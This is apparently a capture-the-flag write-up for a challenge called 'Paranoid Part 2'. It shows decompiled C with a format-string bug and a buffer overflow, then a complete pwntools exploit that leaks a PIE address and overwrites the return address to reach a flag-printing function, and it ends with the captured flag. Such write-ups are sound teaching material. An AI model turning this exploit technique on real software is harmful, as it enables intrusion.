 +++
title = "Paranoid Part 2"
date = 2024-07-02
authors = ["Abhinav I S"]
+++

first, we will run checksec on the binary

```bash
checksec --file=challenge
```
<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

Opening the binary in a decompiler (Ghidra) and looking at main function gives 

```c

void main(void)

{
  undefined local_68 [48];
  char local_38 [48];
  
  banner();
  puts(
      "\nHey its Anonymous again...Someone leaked my temporary location to the FBI and they sent an  agent to the location I provided them"
      );
  puts("\nIt\'s no longer safe to provide you the address of our temporary meeting point.");
  puts("\nI\'m gonna have to hide and lay low for a while...");
  puts("\nTry reaching out to me after things have settled down");
  printf("\nGive me a name so that I can identify you if and when you contact me: ");
  fflush(stdout);
  read(0,local_38,0x23);
  printf("\nAlright Mr. ");
  printf(local_38);
  printf(
        "\nI\'ll look forward to doing business with you...Till then, is there anything that you would like to convey? "
        );
  fflush(stdout);
  read(0,local_68,0x110);
  return;
}
```
Analyzing other functions,
there seems to be a suspicious function safe_house

```c

void safe_house(void)

{
  char local_98 [136];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts(
        "\nThere is no \'flag.txt\' present in this directory. Please create sample flag for local e xploitation."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_98,0x80,local_10);
  printf(local_98);
  putchar(10);
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

clearly, we have to return to this function

there is a printf and two read function calls.
We can exploit a format string vulnereability to leak addresses from the stack, and calculate address of safe_house, since PIE is enabled

first step is to figure out the offset for the printf format string to print out addresses  in the code section

starting the binary in gdb, and disassembling main, we find that addresses likely in the text section start with 0x5555555

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}

setting a break point at the first printf, and printing the stack

<br>
{{ img(id="image3.png", alt="Alt Text", class="textCenter") }}

we can see that %21$lx prints out the address of main

Next, we need to calculate the address of safe_house
from ghidra, we can see that the address of safe_house is 0x010125a,
and address of main is 0x0101316

So, address of win is main - 188

We can create our solve script, overflowing the buffer, RBP, into the return address

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
# context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 27250)

    return r


def main():
    r = conn()
    r.recv()
    r.sendline(b"%21$lx")
    data = r.recv()
    lines = data.split(b"\n")
    main = lines[1].split(b".")[1].lstrip(b" ")
    print(main)
    win = int(main,16) - 188
    print(hex(win))
    payload = b"A"*0x68 + p64(win+1)
    r.sendline(payload)
    print(r.recv())
    r.interactive()




if __name__ == "__main__":
    main()
```

giving the flag

```
flag{Mr_S0-c4ll3d_4n0nym0u5_ha5_l04d5ss_0F_53cUr1Ty_155u35_1907e55351f}
```

